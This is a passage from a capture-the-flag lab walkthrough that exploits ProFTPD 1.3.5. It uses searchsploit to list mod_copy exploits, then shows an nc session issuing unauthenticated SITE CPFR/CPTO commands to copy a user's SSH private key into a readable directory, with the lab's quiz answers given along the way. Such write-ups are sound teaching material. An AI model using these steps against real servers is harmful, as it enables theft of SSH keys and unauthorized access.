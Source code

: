**Ans:** 1.3.5

**Explanation:**  
Identifying the version of the ProFTPD server is crucial as it allows us to search for known vulnerabilities that we can exploit to gain access to the system.

### Q2. Search for Exploits Using Searchsploit

#### Action

Searchsploit is a command-line search tool for exploit-db.com. Use it to find available exploits for the specific version of ProFTPD:

```bash
searchsploit proftpd 1.3.5
```

**Sample Output:**

```
ProFTPd 1.3.5 - 'mod_copy' Command Execution (Metasploit) | linux/remote/37262.rb
ProFTPd 1.3.5 - 'mod_copy' Remote Command Execution       | linux/remote/36803.py
ProFTPd 1.3.5 - File Copy                                 | linux/remote/36742.txt
```

**Ans:** 3 exploits found

**Explanation:**  
The search results reveal three available exploits for ProFTPD version 1.3.5, indicating potential vulnerabilities that we can use to gain access to the target machine.

### Q3. Exploit ProFTPD's mod_copy Module

#### Action

You should have identified an exploit related to the mod_copy module. This module allows unauthenticated users to copy files from one location to another on the server using the SITE CPFR and SITE CPTO commands.

**Explanation:**  
The mod_copy module's vulnerability can be exploited to copy critical files, such as SSH keys, from the target system, which can then be used to gain unauthorized access.

### Q4. Copy Kenobi's SSH Key Using SITE Commands

#### Action

Use the SITE CPFR and SITE CPTO commands to copy Kenobi's SSH private key to a location that is accessible to you:

```bash
nc 10.10.239.150 21
220 ProFTPD 1.3.5 Server (ProFTPD Default Installation) [10.10.239.150]
SITE CPFR /home/kenobi/.ssh/id_rsa
350 File or directory exists, ready for destination name
SITE CPTO /var/tmp/id_rsa
250 Copy successful
quit
221 Goodbye.
```
